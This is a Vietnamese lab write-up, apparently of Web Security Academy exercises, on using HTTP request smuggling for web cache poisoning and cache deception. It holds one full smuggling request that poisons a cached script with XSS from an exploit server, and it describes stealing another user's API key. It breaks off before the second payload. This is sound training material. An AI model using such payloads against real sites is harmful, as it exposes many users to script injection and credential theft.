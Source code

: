 >![](https://i.imgur.com/mywLZqy.png)


>![](https://i.imgur.com/yDIdK09.png)

<hr>

### Bài 16: Exploiting HTTP request smuggling to perform web cache poisoning

>![](https://i.imgur.com/ekbI1oG.png)

Kiểm tra ta thấy có 2 request được cache lại là `/resources/js/tracking.js` và `/resources/images/blog.svg`

Nếu ta smuggle 1 request `/post/next?postId=<x>` thì các request sau đó tới `/resources/js/tracking.js` sẽ nhận được respone của cái request mà ta smuggle (desync).

=> vô tình lấy data từ smuggled request và đẩy vào cache, dẫn tới payload được nằm trong cache -> các user khác đều bị XSS.

```http!
POST / HTTP/1.1
Host: 0a9c002304d87a90c4cfc91e00a400ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a3e002704a07a7bc45cc844015f00b2.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

>![](https://i.imgur.com/Pbu8tog.png)


>![](https://i.imgur.com/Y0MaK4h.png)


>![](https://i.imgur.com/PsFioRB.png)

<hr>

### Bài 17: Exploiting HTTP request smuggling to perform web cache deception

>![](https://i.imgur.com/IujwZXx.png)

>![](https://i.imgur.com/mzLb4wn.png)


Mục tiêu bài này cũng giống web cache poisoning phía trên, tuy nhiên ta khiến server cache lại response cho user khác, sau đó ta có thể lấy thông tin nhạy cảm (ở đây là API key)

Vì đề miêu tả rằng front-end server sử dụng CL header, nên ta sử dụng payload như sau để smuggle 1 request đến trang `/my-account` (nơi có api key)
